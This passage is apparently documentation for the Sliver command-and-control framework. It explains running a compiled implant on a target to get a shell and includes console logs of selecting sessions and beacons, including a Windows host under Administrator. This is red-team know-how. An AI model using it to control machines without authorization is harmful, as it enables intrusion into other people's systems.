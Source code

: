 In this example we're using Mutual TLS, the required certificates for setting up and securing this connection have already been generated in the background and the client certificate pair was embedded into the implant at compile-time. So to get a shell you just have to run the binary on the target.

### Interacting with Sessions

The `use` command will tab-complete session and beacon identifiers, but you can also type them out if you really want to (identifier prefixes are accepted). Additionally, running the `use` command with no arguments will enter an interactive menu to select from.

```
[*] Session 8ff2ce4c LONG_DRAMATURGE - [::1]:57154 (MacBook-Pro-6.local) - darwin/amd64 - Thu, 20 Jan 2022 15:45:10 CST

sliver > use 8ff2ce4c

[*] Active session LONG_DRAMATURGE (8ff2ce4c-9c66-4cbc-b33c-2a56196536e6)

sliver (LONG_DRAMATURGE) > ls

/Users/moloch/Desktop
=====================
.DS_Store                 6.0 KiB
.localized                0 B
LONG_DRAMATURGE           6.3 MiB
```

If you're having problems getting callbacks please see our [troubleshooting guide](/docs?name=Troubleshooting), (TL;DR add the `--debug` flag when generating an implant).

### Interacting with Beacons

Upon initial execution the beacon will register itself with the C2 server and will show up under `beacons`, each instance of a beacon process will get its own id and this id is used for the lifetime of that process (i.e., across key renegotiation, etc). The "Next Check-in" value includes any random jitter (by default up to 30s), and you can also watch your beacons in real time using the `beacons watch` command. Remember to leverage tab complete for the uuid when using `use`:

```
[*] Beacon 8c465643 RELATIVE_ADVERTISEMENT - 192.168.1.178:54701 (WIN-1TT1Q345B37) - windows/amd64 - Sat, 22 Jan 2022 14:40:55 CST

[server] sliver > beacons

 ID         Name                     Tasks   Transport   Remote Address        Hostname          Username                        Operating System   Last Check-In    Next Check-In
========== ======================== ======= =========== ===================== ================= =============================== ================== ================ ===============
 8c465643   RELATIVE_ADVERTISEMENT   0/0     mtls        192.168.1.178:54701   WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      49.385459s ago   37.614549s

[server] sliver > use 8c465643-0e65-45f2-bb7e-acb3480de3cb

[*] Active beacon RELATIVE_ADVERTISEMENT (8c465643-0e65-45f2-bb7e-acb3480de3cb)

[server] sliver (RELATIVE_ADVERTISEMENT) >
```
